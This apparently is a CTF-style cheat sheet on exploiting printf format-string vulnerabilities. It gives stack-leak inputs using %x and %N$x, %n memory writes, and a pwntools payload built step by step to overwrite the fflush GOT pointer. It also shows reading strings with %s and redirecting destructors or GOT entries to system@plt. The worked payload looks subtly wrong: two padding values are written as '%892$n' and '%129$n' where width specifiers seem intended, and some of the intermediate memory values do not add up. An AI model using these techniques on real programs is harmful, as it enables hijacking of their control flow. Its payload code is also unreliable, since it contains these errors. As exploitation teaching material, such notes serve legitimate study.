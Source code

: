 # Format Strings

## Identification

Look for `printf()` family functions that do not handle user input correctly.  
E.g. `printf(user_input);`  

## Find Your Input in Memory

In the vulnerable input field, provide an easily identifiable sequence of characters, e.g. `aaaabbbbccccdddd`  
followed by many `.%x` sequences. In the output, look for `61616161.62626262.63636363.64646464`.  

E.g.: Input: `aaaabbbb.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x` becomes  
Output: `aaaabbbb.8048914.ff811298.ff811330.ff8112a4.f7ee7444.f781f0e6.ff811564.abeb6602.f7ed64a0.61616161.62626262.2e78252e.252e7825.78252e78`  

You can then drill down to the specific leaks with `%10$x`, i.e. print the 10th hex value (dword size on 32bit,  qword on 64bit)  
Using the above example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  

## Writing to Memory

`%n` indicates how long a formatted string is at run time.  
When the `%n` is encountered during printf processing, the number of characters up to the current point  
are written to the address argument corresponding to the format specifier.  

E.g. `\xc8\x97\x04\x08.%x.%x.%100x.%n` would write the integer `110` to the address `0x080497c8`.  
Each byte in the address counts as 1, each %x counts as 1, each '.' counts as 1, and the `%100x` counts for 100.  
Address = 4,  
%x's = 2,  
'.' = 4,  
%.100x = 100,  
Total = 110.  

## Finding a Function to Overwite

Look for a function just after the vulnerable `printf()` function call.  
Ghidra (or another disassembler) can be used.  

`objdump -R <vulnerable_binary> | grep <function_after_printf)` will find that functions address within the binary (linux PIE disabled).  
Or open the binary in GBD, break on main (or anywhere) and run the binary, then type `got` into GDB and  
look for the desired function to overwrite (also PIE disabled).  

ANother method to find addresses is: `objdump -D <binary> | grep <function>`  

## Multiple Writes

If you want to overwrite a function pointer, to point to a different function (see the section on finding  
a function to overwrite) you need to perform multiple writes.  

If you want to overwrite the `fflush()` pointer that is found at `0x0804a028` you will  
need to perform writes at `0x0804a028`, `0x0804a029`, `0x0804a02a` and `0x0804a02b`.  
Depending on each starting value and what you need to change it to, you may need to  
write a number of bytes that overflows into into the next byte, setting that.  
E.g. Writing to `0x0804a028` to set the 1st byte, writing to `0x0804a029` to set  
the 2nd and 3rd byte, then `0x0804a02b` to set the 4th byte.  

Using the example: `aaaabbbb.%10$x.%11$x` becomes: `aaaabbbb.61616161.62626262`  
Print values and analyse in GDB: 
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  fmt0, # %10$n - writing bytes at the 10th position
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the starting value of the pointer: `x/2wx 0x0804a028` = `0x52005252`  

Our first write (LSB) needs to increase from `0x52` to `0x0b` (`0x10b`)  
0x10b - 0x52 = 0xb9 OR (int) 185.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0b010b0b` 

Second write needs to increase 2nd and 3rd bytes from `0x010b` to `0x0487`.  
0x487 - 0x10b = 0x37c OR (int) 892.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x8704870b` 

Third write needs to increase the 4th byte from `0x87` to `0x08` (`0x108`).  
0x108 - 0x87 = 0x81 OR (int) 129.  

Update the paylaod and rerun to determine the second bytes' calculation:  
```python3
# desired value = 0x0804870b
payload = flat ([
  fflush_ptr0, # 0x0804a028 - pointers to each byte to change
  fflush_ptr1, # 0x0804a029
  fflush_ptr2, # 0x0804a02b
  flag_val0, # b"%185x" - Write 185 bytes, plus the original 82 bytes (0x52) = 0x10b
  fmt0, # %10$n - writing 0x10b at the 10th position (fflush_ptr0)
  flag_val1, # b"%892$n" - Write 892 bytes, plus the original 267 bytes (0x10b) = 0x487
  fmt1, # %11$n - writing bytes at the 11th position
  flag_val2, # b"%129$n" - Write 129 bytes, plus the original 135 bytes (0x87) = 0x108
  fmt2  # %12$n - writing bytes at the 12th position
])
```

Observe the value of the pointer now contains: `x/2wx 0x0804a028` = `0x0804870b` our desired value.  

## Read Strings From the Stack

If you have a format string bug and can dump hex values, you can begin to inspect any pointers to strings  
by calling `%s` on the pointer.  

E.g.:  

```bash
> %x.%x.%x.%x.%x.%x.%x.%x 
40.f7e1d620.8048647.0.1.f7fbd4a0.ffb3aee4.ffb3adcc
> %8$s
flag{flag}

```

## Overwriting Destructors

Destructors run after main() exits by calling exit().  
Descructors can be found in a number of sections:  

- .dtors
- .fini
- .fini_array

Find them in an binary that does not have PIE enabled:  

- Objdump - `objdump -D <binary> | grep fini`
- Ghidra - see the "Program Trees" window
- In GDB - `info file`

Write an address into the destructors section of a function you want to call.  

## Overwrite a function 

Find the function you want to overwrite, within the GOT (can find with `Ghidra`). Overwrite this pointer with the  
address to the desired functions PLT address (can find with `objdump`), e.g. system@plt.  
